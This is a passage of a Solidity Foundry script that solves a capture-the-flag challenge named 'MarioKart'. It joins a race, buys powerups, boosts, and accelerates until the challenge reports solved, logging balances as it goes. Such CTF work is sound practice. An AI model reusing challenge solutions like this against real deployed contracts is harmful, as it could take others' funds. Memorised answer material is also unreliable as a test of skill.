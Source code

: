 ```
        vm.createSelectFork(RPC_URL);
        ISetup setup = ISetup(SETUP_ADDRESS);
        IMarioKart marioKart = IMarioKart(setup.getMainContract());
        
        console.log("=== MarioKart CTF Solution ===");
        console.log("Initial contract balance:", marioKart.getContractBalance() / 1e18, "ETH");
        console.log("Players in race:", marioKart.getPlayerCount());
        
        vm.startBroadcast(PRIV_KEY);
        
        // 1. Join race (1 ETH)
        console.log("\n[1] Joining race...");
        marioKart.joinRace{value: 1 ether}("Hacker");
        console.log("- Joined as 'Hacker'");
        
        // 2. Start race
        console.log("\n[2] Starting race...");
        marioKart.startRace();
        console.log("- Race started!");
        
        // 3. Buy powerups
        console.log("\n[3] Buying powerups...");
        marioKart.buyMushroomPowerup{value: 0.1 ether}(); // +50 position
        marioKart.buyStarPowerup{value: 0.5 ether}(); // +20 speed
        console.log("- Powerups purchased");
        
        // 4. Boost
        console.log("\n[4] Boosting...");
        marioKart.boost();
        uint position = marioKart.getRacerPosition(PLAYER_ADDRESS);
        console.log("- Current position:", position);
        
        // 5. Accelerate to win
        console.log("\n[5] Accelerating to finish line...");
        uint requiredAccelerations = (1000 - position) / marioKart.getRacerSpeed(PLAYER_ADDRESS) + 1;
        
        for (uint i = 0; i < requiredAccelerations; i++) {
            marioKart.accelerate();
            position = marioKart.getRacerPosition(PLAYER_ADDRESS);
            console.log("- Accel %d: Pos=%d Speed=%d", i+1, position, marioKart.getRacerSpeed(PLAYER_ADDRESS));
            
            if (position >= 1000) {
                console.log("!!! FINISHED RACE !!!");
                break;
            }
        }
        
        // Final check
        console.log("\n=== Final Status ===");
        console.log("Position:", position);
        console.log("Contract balance:", marioKart.getContractBalance() / 1e18, "ETH");
        console.log("Challenge solved:", setup.isSolved());
        
        vm.stopBroadcast();
    }
}
```

